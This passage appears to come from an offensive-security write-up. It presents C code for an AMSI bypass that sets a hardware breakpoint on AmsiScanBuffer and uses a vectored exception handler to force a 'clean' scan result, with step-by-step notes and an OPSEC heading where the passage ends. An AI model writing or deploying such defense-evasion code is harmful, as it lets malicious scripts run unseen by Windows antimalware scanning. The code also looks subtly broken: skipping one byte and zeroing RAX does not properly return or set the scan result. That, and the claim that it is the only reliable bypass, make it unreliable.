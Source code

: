 **Implementation Pattern**:
```c
// Global VEH context
PVOID g_pAmsiScanBuffer = NULL;

LONG WINAPI VEH_Handler(PEXCEPTION_POINTERS pExceptionInfo) {
    if (pExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        PCONTEXT pContext = pExceptionInfo->ContextRecord;

        // Check if this is AmsiScanBuffer breakpoint
        if ((PVOID)pContext->Rip == g_pAmsiScanBuffer) {
            // Return AMSI_RESULT_CLEAN
            pContext->Rax = 0;
            pContext->Rip += 1; // Skip actual execution
            return EXCEPTION_CONTINUE_EXECUTION;
        }
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

BOOL VEH2_Initialize() {
    // Get AmsiScanBuffer address
    HMODULE hAmsi = LoadLibraryA("amsi.dll");
    g_pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

    // Register VEH handler
    AddVectoredExceptionHandler(1, VEH_Handler);

    // Set hardware breakpoint on AmsiScanBuffer using DR0
    CONTEXT ctx = {0};
    ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;
    GetThreadContext(GetCurrentThread(), &ctx);

    ctx.Dr0 = (DWORD64)g_pAmsiScanBuffer;
    ctx.Dr7 = 0x1; // Enable DR0 for execution breakpoint

    SetThreadContext(GetCurrentThread(), &ctx);
    return TRUE;
}
```

**How VEH² Works**:
1. Register Vectored Exception Handler for EXCEPTION_SINGLE_STEP
2. Set hardware breakpoint on amsi.dll!AmsiScanBuffer via debug register DR0
3. When PowerShell/CLR calls AmsiScanBuffer, CPU triggers exception
4. VEH handler catches exception, modifies RAX to 0 (AMSI_RESULT_CLEAN)
5. Execution resumes, AMSI reports clean result
6. **Zero bytes changed in amsi.dll** - passes all integrity checks

**Windows 11 24H2 Compatibility**: This is the **only reliable AMSI bypass** on Windows 11 24H2 as of 2024-2025. Memory patching techniques fail due to enhanced AMSI integrity validation.

## OPSEC Considerations
